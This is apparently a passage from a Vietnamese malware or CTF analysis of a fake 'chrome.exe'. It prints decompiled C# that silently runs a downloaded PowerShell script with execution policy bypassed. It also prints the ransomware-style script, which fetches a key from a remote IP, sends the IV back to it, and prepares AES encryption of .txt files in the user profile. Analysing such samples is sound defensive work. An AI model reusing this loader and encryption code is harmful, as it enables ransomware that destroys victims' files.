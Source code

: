 ```csharp
			}
			using (Process process = Process.Start(new ProcessStartInfo
			{
				FileName = "powershell.exe",
				Arguments = "-ExecutionPolicy Bypass -File \"" + text + "\"",
				UseShellExecute = false,
				RedirectStandardOutput = true,
				RedirectStandardError = true,
				CreateNoWindow = true
			}))
			{
				string str = process.StandardOutput.ReadToEnd();
				string text5 = process.StandardError.ReadToEnd();
				process.WaitForExit();
				Console.WriteLine("[Output] " + str);
				if (!string.IsNullOrWhiteSpace(text5))
				{
					Console.WriteLine("[Error] " + text5);
				}
			}
		}
		catch (Exception ex)
		{
			Console.WriteLine("Lỗi: " + ex.Message);
		}
	}
}

```

File `chrome.exe` này đầu tiên tạo 1 tệp powershall trống tên là `temp_script.ps1`, sau đó giải mã base64 và tải nội dung của powershell tại `http://192.168.193.52:50000/powershell` và lưu vào lại vào tệp rồi thực thi:

![image](https://hackmd.io/_uploads/rkeLRMq_ex.png)

![image](https://hackmd.io/_uploads/Hyvs0fqOxl.png)

```csharp
        $targetDirectories = @("$env:USERPROFILE")
        $fileExtensionsToEncrypt = @(".txt")
        $encodedPayloadUrl = "http://192.168.193.52:50000/12345"
        $sendIVUrl = "http://192.168.193.52:50000/iv"
        $base64Payload = Invoke-WebRequest -Uri $encodedPayloadUrl | Select-Object -ExpandProperty Content
    
        $decodedPayload = [System.Text.Encoding]::UTF8.GetString(
            [System.Convert]::FromBase64String($base64Payload)
        )

        $sha256 = [System.Security.Cryptography.SHA256]::Create()
        $key = $sha256.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($decodedPayload))

        $rijndaelTemp = [System.Security.Cryptography.RijndaelManaged]::Create()
        $iv = $rijndaelTemp.IV

        $ivBase64 = [System.Convert]::ToBase64String($iv)
        $body = @{ iv = $ivBase64 } | ConvertTo-Json

        Invoke-WebRequest -Uri $sendIVUrl -Method POST -Body $body -ContentType "application/json"

        $rijndael = New-Object System.Security.Cryptography.RijndaelManaged
        $rijndael.Key = $key
        $rijndael.IV = $iv
```